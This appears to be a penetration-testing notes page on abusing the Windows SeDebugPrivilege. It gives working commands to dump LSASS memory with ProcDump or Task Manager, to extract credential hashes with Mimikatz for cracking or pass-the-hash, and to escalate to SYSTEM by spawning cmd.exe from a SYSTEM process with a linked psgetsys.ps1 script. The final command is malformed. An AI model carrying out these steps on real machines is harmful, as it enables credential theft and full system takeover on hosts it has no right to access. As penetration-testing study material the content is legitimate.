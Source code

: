 # SeDebugPrivilege

## <mark style="color:yellow;">About</mark>

<mark style="color:green;">`SeDebugPrivilege`</mark> allows a user to <mark style="color:purple;">**debug system processes**</mark> without being a local administrator. By default, only administrators are granted this privilege as it can be used to capture sensitive information from <mark style="color:yellow;">**system memory**</mark>, or <mark style="color:yellow;">**access/modify kernel**</mark> and application structures.

*   Assigned via **Local or Domain Group Policy**:

    <mark style="color:blue;">**`Computer Settings > Windows Settings > Security Settings`**</mark>

## <mark style="color:yellow;">Dumping LSASS</mark>

We can use <mark style="color:red;">**ProcDump**</mark> from the <mark style="color:red;">**SysInternals**</mark> suite to leverage this privilege and <mark style="color:purple;">**dump process memory**</mark>. A good candidate is the **LSASS** process, which stores user credentials after a user logs on to a system.

Or we can dump it with <mark style="color:orange;">**`Task Manager`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Details`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`lsass.exe`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Right-Click`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**->**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**`Create dump file`**</mark>

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Then we can use <mark style="color:red;">**Mimikatz**</mark> to extract NTLM hashes from and crack it, or use it for Pass-The-Hash attack

```powershell
C:\> mimikatz.exe
```

```
mimikatz # sekurlsa::minidump lsass.dmp
```

```cmd-session
mimikatz # sekurlsa::logonpasswords
```

## <mark style="color:yellow;">RCE as SYSTEM</mark>

We can exploit <mark style="color:green;">`SeDebugPrivilege`</mark> to achieve RCE. This method allows us to escalate privileges to **SYSTEM** by spawning a child process and leveraging the elevated rights granted through <mark style="color:green;">`SeDebugPrivilege`</mark>. By modifying standard system behavior, we can make the child process inherit the parent process's token and impersonate its privileges.

1. First we need to transfer script [**\[LINK\]**](https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1) to target. Then we need to find a process that uses **SYSTEM:**

<pre class="language-powershell"><code class="lang-powershell"><strong>PS:\> tasklist 
</strong></code></pre>

2. After we found PID we need to use that command:

```powershell
PS:\> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(612, "c:\windows\System32\cmd.exe", "")
```

3. Or we could use **GetProcess** cmdlet to bypass looking for PID, for example we could use lsass.exe

```powershell
PS:\> .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(Get-Process "lsass".Id, "c:\windows\System32\cmd.exe", ""cd C;
```
